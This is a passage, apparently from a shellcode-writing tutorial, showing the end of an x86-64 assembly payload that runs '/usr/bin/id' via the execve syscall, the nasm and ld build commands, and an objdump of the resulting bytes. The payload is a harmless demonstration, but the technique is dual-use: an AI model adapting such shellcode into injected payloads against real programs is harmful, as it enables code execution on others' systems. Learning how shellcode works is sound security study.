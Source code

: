 >
>align 8
>	cmd db '/usr/bin/id', 0
> ```

Let's compile it with `nasm -f elf64 -o shellcode.o shellcode.asm; ld -o shellcode shellcode.o` and dump its content with `objdump` . Here is the result:

> ```sh
>$ objdump -d -s -j .text shellcode
>
>shellcode:     file format elf64-x86-64
>
>Contents of section .text:
>	400080 52575648 8d3d1e00 00006a00 574889e6  RWVH.=....j.WH..
>	400090 ba000000 00b83b00 00000f05 5e5e5e5f  ......;.....^^^_
>	4000a0 5ac39090 90909090 2f757372 2f62696e  Z......./usr/bin
>	4000b0 2f696400                             /id.            
>
>Disassembly of section .text:
>
>0000000000400080 <_start>:
>	400080:	52                   	push   %rdx
>	400081:	57                   	push   %rdi
>	400082:	56                   	push   %rsi
>	400083:	48 8d 3d 1e 00 00 00 	lea    0x1e(%rip),%rdi        # 4000a8 <cmd>
>	40008a:	6a 00                	pushq  $0x0
>	40008c:	57                   	push   %rdi
>	40008d:	48 89 e6             	mov    %rsp,%rsi
>	400090:	ba 00 00 00 00       	mov    $0x0,%edx
>	400095:	b8 3b 00 00 00       	mov    $0x3b,%eax
>	40009a:	0f 05                	syscall 
>	40009c:	5e                   	pop    %rsi
>	40009d:	5e                   	pop    %rsi
>	40009e:	5e                   	pop    %rsi
>	40009f:	5f                   	pop    %rdi
>	4000a0:	5a                   	pop    %rdx
>	4000a1:	c3                   	retq   
>	4000a2:	90                   	nop
>	4000a3:	90                   	nop
>	4000a4:	90                   	nop
>	4000a5:	90                   	nop
>	4000a6:	90                   	nop
>	4000a7:	90                   	nop
>
>00000000004000a8 <cmd>:
>	4000a8:	2f                   	(bad)  
>	4000a9:	75 73                	jne    40011e <cmd+0x76>
>	4000ab:	72 2f                	jb     4000dc <cmd+0x34>
>	4000ad:	62                   	(bad)  
>	4000ae:	69                   	.byte 0x69
>	4000af:	6e                   	outsb  %ds:(%rsi),(%dx)
>	4000b0:	2f                   	(bad)  
>	4000b1:	69                   	.byte 0x69
>	4000b2:	64                   	fs
>	...
> ```
